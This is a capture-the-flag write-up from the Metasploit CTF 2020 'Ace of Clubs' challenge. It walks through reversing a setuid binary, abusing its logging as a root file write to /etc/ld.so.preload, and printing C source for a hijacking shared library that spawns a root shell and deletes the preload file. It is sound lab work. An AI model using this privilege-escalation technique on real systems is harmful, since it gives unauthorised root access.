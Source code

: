 ```yaml
---
layout: single
title: "Metasploit CTF: 'Ace of Clubs'"
---
```


During the weekend of the 5th December I had a little time to participate in the Metasploit CTF 2020, one particular challenge I found quite interesting mainly because the route I decided to take was probably a little different and a lot more involved but I wanted to test myself! So let's crack on...

## Challenge: Ace of Clubs

The challenge begins with an SSH server listening on port 9009, after connecting you're presented with a banner requesting you to login as admin, a few simple guesses and I login with the password 'password' and I obtain a shell with user or low privileges.

![alt text](https://ben0.github.io/assets/images//9009_sshlogin.PNG "SSH port 9009")

After light enumeration I find the flag `/etc/ace_of_spades.jpg` readable as root only, a binary `/opt/vpn_connect` with set user ID on execution, and the owner root - this must be the path to flag.

First let us see if the binary has any dependencies, using ldd will help identify what shared objects are required by the binary, and this particular binary requires the library `/usr/lib/libvpnauthcustom.so` to run.

![alt text](https://ben0.github.io/assets/images//9009_ldd.PNG "Library dependencies")

Using NM to list the symbol table in the binary or shared library, grepping for 'T' or 't' to filter on symbols in the data section. You could say the symbols are mapping between the functions and the instructions within the binary that may be used during execution.

![alt text](https://ben0.github.io/assets/images//9009_nm.PNG "Binary symbols")

Running the binary we're prompted with usage instructions, the binary requires three parameters, username, password, and a log path. Let see if we can get the username & password using GDB, I use pwndbg which is pretty great for any sort of reverse engineering, I highly recommened it. You can set the binary arguments, and set a breakpoint on the `authenticate` function to stop execution and return control back:

![alt text](https://ben0.github.io/assets/images//9009_gdbstart.PNG "GDB")

Now I can step a few instructions to the call to string compare function where our user supplied input is being compared to the string `username` - this must be the username! Repeating this process I also get the password.

![alt text](https://ben0.github.io/assets/images//9009_gdbusername.PNG "GDB")
![alt text](https://ben0.github.io/assets/images//9009_gdbpassword.PNG "GDB")

Excellent, now we know the username and password surely we'll get the flag, let's run the binary with the correct username and password.... Fail, nothing happens. To save time let us see what we get with strace, a great utility to trace system call activity.

![alt text](https://ben0.github.io/assets/images//9009_strace.PNG "System trace")

The notable system calls here are `umask` which sets the file creation mask, then `openat` to get a file descriptor with the flags 'O_WRONLY | O_CREAT', write only or create if the file doesn't exist, then we see a few `write` calls with logging information followed by a `close` on the file descriptor.

As the binary is running as root, it's effectively an arbitrary write to any file with the username and password which we control as well as the other junk, great! Here I tried to write to `/etc/passwd` or `/etc/shadow` but I couldn't get the format correct, this is where I decided to get a root shell instead :-)

### Privilege escalation

The binary uses a shared library to provide the `authenticate` function which is dynamically loaded at run-time. The shared library is located in ```/usr/lib/libvpnauthcustom.so``` and we only have read permissions, how can we abuse this?

Linux provides functionality for preloading libraries through `LD_PRELOAD` environment variable or `/etc/ld.so.preload`, preloading allows a user to suppler a library which is loaded before other libraries. If I create and compile a library with a function named `authenticate` can I hijack the execution of the binary?

Here is rough (don't judge me!) sourcecode with a single function `authenticate` when called by the binary set the UID to 0 and calls the system function with ```/bin/bash``` giving us a root shell!  

```
cat > /tmp/exploit.c << "EOF"
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    uid_t uid = getuid();
    uid_t euid = geteuid();
    printf("Uid: %i, Euid: %i\n",uid,euid);

    setuid(0);
    setgid(0);
    
    uid_t puid = getuid();
    uid_t peuid = geteuid();
    printf("Uid: %i, Euid: %i\n",puid,peuid);

    system("/bin/bash");
    return 0;
}
EOF
```
Here I compile the source code into a shared object:

![alt text](https://ben0.github.io/assets/images//9009_payload_compile.PNG "Compiling exploit.c")

Then I can abuse the log functionalilty to write the string '/tmp/preload.so' to `/etc/ld.so.preload`:

![alt text](https://ben0.github.io/assets/images//9009_write_ld_so_payload1.PNG "Abusing the -l switch")

If you look at the last image, you can see the errors produced by `ld.so` which is responsible for finding and loading shared libraries. Any shared libraries can be specificed seperated by white spaces so it's a fairly relaxed syntax, there are plenty of errors where `ld.so` can't find the library specificed but it still finds our malicious shared library and is preloaded when a binary in run. 

I've created and compiled a shared object library, abused the `vpn_connect` log function binary to add the library to `ld.so.preload`, then run `vpn_connect` binary again, the malicious shared library is loaded, calling the `authenticate` function in our library rather the intended library and I get a shell as root!

![alt text](https://ben0.github.io/assets/images//9009_exploit1.PNG "Exploit!")
![alt text](https://ben0.github.io/assets/images//9009_exploit2.PNG "Exploit!")

### Next steps

The shared object isn't perfect, but we could improve it by removing some of the printf statements and deleting `/etc/ld.so.preload` to stop those nagging error messages:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int authenticate(const char *str,const char *str1) {
    setuid(0);
    setgid(0);
    unlink("/etc/ld.so.preload");
    system("/bin/bash");
    return 0;
}
```
